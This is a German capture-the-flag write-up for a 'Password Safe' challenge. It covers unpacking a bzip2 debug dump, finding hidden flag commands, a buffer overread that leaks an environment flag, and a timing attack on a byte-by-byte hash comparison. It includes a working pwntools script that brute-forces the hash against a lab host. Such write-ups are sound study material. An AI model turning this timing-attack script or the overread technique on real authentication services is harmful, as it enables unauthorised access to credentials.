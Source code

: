 # Password Safe

> A student group developed a new tool in a seminar, which is now being used by the admins at the HackHigh institute. But the students say that this software was never intended to be in production use...


![](screenshots/Pasted%20image%2020230315102438.png)

Ein Passwort Safe also, bei dem wir erstmal nicht viel ausrichten können. Leider gibt es auch (vorerst) kein Binary zum lokalen Testen. Warum also nicht erstmal um support bitten? Das support Feature spuckt einen langen, scheibar base64 kodierten Text aus, den ich erstmal in [CyberChef](https://gchq.github.io/CyberChef) kopiert habe.

![](screenshots/Pasted%20image%2020230327083205.png)

Die erste Zeile ist auch tatsächlich lesbar - aber was ist der Rest? Da die erste Zeile sagt, dass es sich um eine Datei handelt, habe ich den Output (ohne die erste Zeile) als Datei gespeichert. Dabei ist ein erster Blick auf die ersten Zeichen der Datei interessant. Wenn man das googelt, stößt man schnell darauf, dass es sich dabei um die Signatur von Bzip2 handelt. Cyberchef schlägt beim Speichern auch direkt `.bz2` als Endung vor.


![](screenshots/Pasted%20image%2020230327084147.png)

Entpackt finden wir darun einen keysafe-debug Ordner mit interessanten Dateien. Neben der ersten Flag in der Datei `license` befindet sich hier auch das Binary der Challenge, das sich jetzt in Ghidra zur weiteren Analyse laden lässt.

In der Funktion `react()` werden die Eingaben verwaltet. Hier fällt auf, dass es neben den im Hilfe-Text angegebenen Kommandos help, authenticate (wobei auth anscheinend reicht), get-keys, support, architecture und exit auch noch die Kommandos `fl4g-obfuscate` und `fl4g` gibt. Letzteres liefert und auch unauthentisiert die zweite Flag.

Noch eine Flag ist unauthentisiert erreichbar. Der User-Input, der keine festgelegte Länge hat, wird in einen buffer der Länge 102 kopiert und anschließend wird bis zum 818. Zeichen jeder Zeilenumbruch/Return durch 0 ersetzt. Im Anschluss wird die Server-Status Flag aus den Umgebungsvariablen geladen. Wenn jetzt der Input aber bis zum 818. Zeichen keinen Zeilenumbruch oder Return drin hat, werden bei der anschließenden Ausgabe von `Command <mein-input> not recognized.` auch die anschließenden Zeichen, also die Flag ausgegeben.

![](screenshots/Pasted%20image%2020230327090612.png)

![](screenshots/Pasted%20image%2020230327090648.png)

Jetzt wird es aber wirklich Zeit, sich auch mal anzumelden bei dem Key Safe. Aber wie? Hier habe ich lange auf die Funktion `equal_hashes()` gestarrt, bis es mir plötzlichaufgefallen ist:

![](screenshots/Pasted%20image%2020230327091135.png)

Der Hash wird Zeichen für Zeichen verglichen. Bei Ungleichheit wird 4 Millisekunden geschlafen. Je mehr Zeichen also korrekt sind, desto kürzer dauert der Vergleich. Das lässt sich für eine Timing-Attacke ausnutzen. Ich habe dafür ein Script geschrieben, das erst einmal ein paar zufällig erzeugte 64 Zeichen lange Passwörter ausprobiert und davon das mit der kürzesten Startzeit als Ausgangspunkt nimmt. So ist die Gesamtlaufzeit schon zu Beginn ein wenig optimiert.

Anschließend wird Zeichen für Zeichen je 10 mal durchiteriert und das Zeichen ausgewählt, das am häufigsten die kürzeste Ausführungszeit zur Folge hatte.


```python
#! /bin/python3

from pwn import *
from time import time
import random


context.log_level = 'critical'

chars = "abcdefABCDEF0123456789"

def test_password(pw):
	conn = remote('10.65.56.105',1337)

	r = conn.recvuntil(b'What can I do for you today? ')
	conn.sendline(b'auth')
	r = conn.recvuntil(b'Hashed-Password: ')
	
	start = time()
	conn.sendline(pw.encode())
	r = conn.recv()
	end = time()
	duration = end-start
	
	conn.close()
	return duration

best_choice = [5, 'x']

for i in range(20):
	pw_list = random.choices(chars, k=64)
	pw = ''.join(pw_list)
	duration = test_password(pw)
	if duration < best_choice[0]:
		best_choice[0] = duration
		best_choice[1] = pw

print(best_choice)

pw = best_choice[1]
pw_list = list(pw)


for i in range(64):
	smallest = []

	for j in range(10):

		local_smallest = [5, 'x']
		for c in chars:
			
			pw_list[i] = c
			pw = ''.join(pw_list)
			
			duration = test_password(pw)
			
			if (duration < local_smallest[0]):
				local_smallest[0] = duration
				local_smallest[1] = c 
		print(local_smallest)
		smallest.append(local_smallest[1])

	found = max(set(smallest), key = smallest.count)
	print('Found: ', i, found, smallest)
	pw_list[i] = found

print('Hash: ', ''.join(pw_list))		
```


Das Script habe ich zweimal laufen lassen, da der erste Versuch noch nicht den (komplett) richtigen Hash geliefert hat. Die beiden Ergebnisse haben sich nur an wenigen Stellen unterschieden, so dass ich das Script nochmal in abgewandelter Form für ein Finetuning an den entsprechenden Stellen laufen lassen konnte. Das Ergebnis war der richtige Hashwert und zur Belohnung die vierte Flag nach der Authentisierung beim Keysafe.